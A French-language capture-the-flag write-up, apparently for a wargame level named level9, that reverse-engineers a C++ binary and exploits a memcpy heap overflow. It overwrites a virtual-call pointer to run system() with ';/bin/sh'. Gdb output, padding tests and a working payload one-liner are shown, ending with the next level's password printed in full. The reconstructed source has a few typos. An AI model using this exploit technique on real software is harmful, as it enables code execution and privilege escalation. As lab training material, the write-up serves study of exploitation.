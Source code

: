 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
/home/user/level9
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level9 :

```bash
$ ./level9
$
$ ./level9 da
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=563ef243-714b-4c51-a5a5-ecc13358fab5) et en extrait une version probable du code :


```c++
class N
{
    public:
        N(int x) : number(x)
        {
        }

        void setAnnotation(char *input)
        {
            memcpy(annotation, input, strlen(input));
        }

        virtual int operator+(N &some)
        {
            return number + some.number;
        }

        virtual int operator-(N &some)
        {
            return number - some.number
        }

    private:
        char annotation[100];
        int number;
};

int main(int ac, char **av)
{
	if (ac <= 1)
        exit(1);

	N *five = new N(5);
	N *six = new N(6);

	N &five = *five
    N &six = *six;

	five.setAnnotation(argv[1]);

	return five + six;
}
```
Oh... Il semble qu'on ai à faire à du `C++` ici.
Cette reconstitution s'appuie principalement sur la décompilation par `Hexray` en unifiant l'ensemble dans une `class` nommée `N`.

A priori, pas d'appel à `bin/sh` dans le code, il va donc me falloir utiliser l'une des méthodes des premiers niveaux, notamment celle d'exécution arbitraire de fonction dans la `libc` (`Ret2Libc`), si `C++` me le permet.

La seule vulnérabilité que j'observe dans cette reconstitution serait `memcpy()`. Ici, `memcpy()` ne s'assure pas que l'annotation passée par `argv[1]` rentre dans le buffer de `100` déclaré par la structure N lorsqu'elle utilise `setAnnotation()`.

Il serait donc possible ici alors de ré-écrire la valeur de retour de la fonction `setAnnotation()` afin qu'elle pointe, à la manière du `level2`, sur un appel arbitraire à `system()`, auquel nous pourrons demander d'exécuter `bin/sh`. Cependant, il faut noter la double référence présente dans le code source, il faudra faire donc deux "saut" : il ne sera pas possible d'appeller `system()` directement à l'overflow à cause de la dé-référence. Une façon d'y pallier serait que l'overflow fasse pointer sur le début d'`annotation`, lui même contenant l'appel à `system()`.

Je cherche d'abord l'adresse de `system()` avec `gdb` :

```h
$ gdb ./level9
(gdb) disas main
    ...
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret

(gdb) break *main+165
Breakpoint 1 at 0x8048699

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x08048699 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

Je détermine ensuite le padding nécessaire pour l'overflow :

```bash
$ ./level9 `python -c 'print("\x90" * 100)'`
$ ./level9 `python -c 'print("\x90" * 200)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 150)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 125)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 110)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 105)'`
$ ./level9 `python -c 'print("\x90" * 108)'`
$ ./level9 `python -c 'print("\x90" * 109)'`
Segmentation fault (core dumped)
```

En rétrospecte, je comprend pourquoi je trouve que l'overflow est à 108 bytes : plus haut, j'ai déterminé que le buffer `annotation` était de 100 bytes, et qu'`Hexray` le placait à `ebp-8`, mais aussi, et plus spécifiquement, qu'il était déclaré ici : `v3 = (N *)operator new(0x6Cu);` à 108 bytes.
Cela corrèle donc avec le segfault observé au 109ème `NOP` passé dans les test ci-dessus.

Il me faut donc trouver quelle est l'adresse qui correspond au début de mon payload infecté lorsqu'il est utilisé par `setAnnotation()`, si la première adresse de l'overflow pointe vers le début du payload, alors le programme exécutera ensuite le payload, et donc `system()` auquel je pourrais passer `bin/sh` comme argument.

Je me penche sur `gdb` pour trouver l'adresse du début de l'array `annotation`.

Je peux trouver l'adresse de `annotation` en inférant que `%eax` la contiendra au retour de `setAnnotation()` car `memcpy()`[retourne son premier argument](https://pubs.opengroup.org/onlinepubs/7908799/xsh/memcpy.html), et il sera donc stocké dans `%eax`.

Je peux lancer le binaire, mettre un break au retour de `setAnnotation()`, puis analyser la valeur de `%eax` :

```h
(gdb) b *main+136
Breakpoint 1 at 0x804867c

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x6164   24932
edx            0x804a00f        134520847
ebx            0x804a078        134520952
...
```

Je trouve donc l'adresse : `0x804a00c`.

Avec ces 3 informations :

- Adresse de `system()` -> 0xb7d86060
- Overflow à 108 bytes
- Adresse de `annotation` -> 0x804a00c

J'essaye ce paytl
Je peux créer un payload infecté :

```python
#                |    system()    |         | NOP sled |    | annotation[0] |         | system(args) |    
python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"'
```

Ce payload aura pour effet d'overflow après le padding de 104 bytes (108 - l'adresse de `system()`), trouvera une adresse qui pointe sur le début d'`annotation`, ce qui exécutera le début de `annotation`, et donc `system()`, qui prendra comme argument le `NOP sled` (le padding), l'adresse qui pointait vers `annotation`, puis pour ignorer le 'bruit' précédent, passera `;bin/sh` avec un ';' afin que l'instruction précédente soit simplement un échec et que le shell soit ensuite exécuté.

Je teste mon payload :

```bash

$ ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
sh: 1:
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```







